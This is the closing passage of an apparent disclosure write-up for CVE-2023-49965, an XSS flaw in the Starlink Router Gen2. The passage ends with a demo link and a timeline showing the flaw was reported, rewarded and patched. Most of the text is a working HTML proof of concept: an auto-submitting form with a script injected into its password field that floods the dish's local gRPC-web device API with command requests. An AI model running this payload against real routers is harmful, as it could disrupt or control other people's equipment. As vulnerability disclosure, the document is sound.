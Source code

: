 ```
			<input type="hidden" name="password" value='"><script>for(let i=0;i<100;i++){setTimeout(()=>{var xhr=new XMLHttpRequest();xhr.open("POST","http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle",true);xhr.setRequestHeader("x-grpc-web","1");xhr.setRequestHeader("Content-Type","application/grpc-web+proto");xhr.onreadystatechange=()=>{if(xhr.readyState==4&&xhr.status==200){console.log(xhr.responseText);}};xhr.send(new Uint8Array([0,0,0,0,3,146,125,0]).buffer);setTimeout(()=>{var xhr2=new XMLHttpRequest();xhr2.open("POST","http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle",true);xhr2.setRequestHeader("x-grpc-web","1");xhr2.setRequestHeader("Content-Type","application/grpc-web+proto");xhr2.onreadystatechange=()=>{if(xhr2.readyState==4&&xhr2.status==200){console.log(xhr2.responseText);}};xhr2.send(new Uint8Array([0,0,0,0,5,146,125,2,8,1]).buffer);},1000);},i*2000);}</script><input type="hidden'/>
		</form>
		<script type="text/javascript">
			document.addEventListener("DOMContentLoaded", function() {
				document.getElementById("PoC").submit();
			});
		</script>
	</body>
<html>
```

# Demo

---

[Exploit-PoC.mp4](/blog/2023-Starlink-Router-Gen2-XSS/Exploit-PoC.mp4)

# CVE

- [CVE-2023-49965](https://www.cve.org/CVERecord?id=CVE-2023-49965)

# **Time Line**

- 2023-10-10 : Vulnerability reported to SpaceX/Starlink
- 2023-10-12 : Recognized as a security vulnerability with a severity of Moderate ( Reward `$500` USD )
- 2023-11-01 : Patched in the latest release (The fix is in versions `2023.48.0` and up)

